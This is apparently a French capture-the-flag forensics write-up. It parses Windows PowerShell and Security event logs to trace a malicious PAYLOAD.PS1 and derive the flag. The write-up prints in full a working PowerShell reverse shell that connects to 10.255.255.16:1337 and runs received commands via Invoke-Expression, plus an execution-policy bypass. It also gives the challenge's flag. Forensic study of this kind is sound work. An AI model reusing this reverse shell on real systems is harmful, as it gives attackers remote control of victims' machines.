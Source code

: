 # Weird Shell

Catégorie : forensics

Difficulté : :star:

## Énoncé

> Un autre utilisateur a un comportement similaire à La gazette de Windows (catégorie intro). Mais cette fois, pour retrouver ce qui a été envoyé à l'attaquant il faudra peut-être plus de logs.
>
> **SHA256(Microsoft-Windows-PowerShell%4Operational.evtx) = 7b2ce2b5d231c9c09018fed031b1e8aae7a661d192167fb29f238a29bf744bdc**
>
> **SHA256(Security.evtx) = 1c55121cd0488aa625d44eefd7560e8e7749306358ae312523946891edc1f689**

## Solve

On verifie l'intégrité des fichiers de logs :

```shell
sha256sum Microsoft-Windows-PowerShell4Operational.evtx | grep 7b2ce2b5d231c9c09018fed031b1e8aae7a661d192167fb29f238a29bf744bdc
                                                       
7b2ce2b5d231c9c09018fed031b1e8aae7a661d192167fb29f238a29bf744bdc  Microsoft-Windows-PowerShell4Operational.evtx


sha256sum Security.evtx | grep 1c55121cd0488aa625d44eefd7560e8e7749306358ae312523946891edc1f689

1c55121cd0488aa625d44eefd7560e8e7749306358ae312523946891edc1f689  Security.evtx
```

On va utiliser l'outil [evtx](https://github.com/omerbenamram/evtx) pour parser les **.evtx** : 

```shell
./evtx_dump -o json Microsoft-Windows-PowerShell4Operational.evtx > powershell.json

./evtx_dump -o json Security.evtx > security.json 
```

On cherche un script powershell :

```shell
cat powershell.json| grep -i ".ps1"
      "ScriptBlockText": "if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'D:\\PAYLOAD.PS1'"
      "Path": "D:\\PAYLOAD.PS1",
      "Path": "D:\\PAYLOAD.PS1",
      "Path": "D:\\PAYLOAD.PS1",
```

Au record **1467**, le script `PAYLOAD.PS1` est exécuté : 

```json
Record 1467
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "",
      "ScriptBlockId": "fab1cf7c-71d9-40fc-8f4d-6440a06f856f",
      "ScriptBlockText": "if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'D:\\PAYLOAD.PS1'"
    },
    "System": {
      "Channel": "Microsoft-Windows-PowerShell/Operational",
      "Computer": "DESKTOP-AL3DV8F.fcsc.fr",
      "Correlation": {
        "#attributes": {
          "ActivityID": "F3D5BB62-656E-0001-1F13-D6F36E65D901"
        }
      },
      "EventID": 4104,
      "EventRecordID": 1467,
      "Execution": {
        "#attributes": {
          "ProcessID": 3788,
          "ThreadID": 748
        }
      },
```

Au record **1468**, on remarque que du powershell issu du script `PAYLOAD.PS1` est exécuté :

```json
Record 1468
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "D:\\PAYLOAD.PS1",
      "ScriptBlockId": "2354b750-2422-42a3-b8c2-4fd7fd36dfe7",
      "ScriptBlockText": "do {\n    Start-Sleep -Seconds 1\n     try{\n        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)\n    } catch {}\n} until ($TCPClient.Connected)\n$NetworkStream = $TCPClient.GetStream()\n$StreamWriter = New-Object IO.StreamWriter($NetworkStream)\nfunction WriteToStream ($String) {\n    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}\n    $StreamWriter.Write($String + 'SHELL> ')\n    $StreamWriter.Flush()\n}\nWriteToStream \"FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n\"\nwhile(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {\n    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)\n    $Output = try {\n            Invoke-Expression $Command 2>&1 | Out-String\n        } catch {\n            $_ | Out-String\n        }\n    WriteToStream ($Output)\n}\n$StreamWriter.Close()\n"
    },
    "System": {
      "Channel": "Microsoft-Windows-PowerShell/Operational",
      "Computer": "DESKTOP-AL3DV8F.fcsc.fr",
      "Correlation": {
        "#attributes": {
          "ActivityID": "F3D5BB62-656E-0000-5F11-D6F36E65D901"
        }
      },
      "EventID": 4104,
      "EventRecordID": 1468,
      "Execution": {
        "#attributes": {
          "ProcessID": 3788,
          "ThreadID": 748
        }
      },
```

On remet en forme le powershell pour plus de lisibilité :

```ps1
do {
    Start-Sleep -Seconds 1
    try {
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n"

while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}

$StreamWriter.Close()
```

Le code est un script PowerShell qui établit une connexion TCP avec l'adresse IP `10.255.255.16` sur le port `1337`. Il envoie ensuite une chaîne de caractères au format `FCSC{hash}` qui correspond à une valeur de hachage SHA256 calculée sur la **combinaison de l'identifiant de processus (PID) de PowerShell et du nom d'utilisateur actuel**. Ce hash est envoyé à travers la connexion TCP.

Au record **1468** et **1469** des logs powershell, on peut avoir le PID : `3788`

```json
      "EventID": 4104,
      "EventRecordID": 1467,
      "Execution": {
        "#attributes": {
          "ProcessID": 3788,
          "ThreadID": 748
        }
      }
```

Au record **59778** des logs `Security`, on peut avoir l'utilisateur courant lorsque `PAYLOAD.PS1` a été exécuté. Faire attention au nom de l'ordinateur, si on regarde bien le log on comprend que la machine est dans un domaine, le nom de la machine est remplacé par le nom NETBIOS du domaine: `FCSC\cmaltese`

```json
Record 59778
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "CommandLine": "\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" \"-Command\" \"if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'D:\\PAYLOAD.PS1'\"",
      "MandatoryLabel": "S-1-16-8192",
      "NewProcessId": "0xecc",
      "NewProcessName": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
      "ParentProcessName": "C:\\Windows\\explorer.exe",
      "ProcessId": "0x1544",
      "SubjectDomainName": "FCSC",
      "SubjectLogonId": "0x647ad",
      "SubjectUserName": "cmaltese",
      "SubjectUserSid": "S-1-5-21-3727796838-1318123174-2233927406-1107",
      "TargetDomainName": "-",
      "TargetLogonId": "0x0",
      "TargetUserName": "-",
      "TargetUserSid": "S-1-0-0",
      "TokenElevationType": "%%1936"
    }
```

On modifie le bout de code qui nous intéresse et on l'affiche :

```ps1
Write-Output "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("3788"+"FCSC\cmaltese").ToString()))))).Replace('-', '').ToLower())}`n"
```

**Flag : FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}**
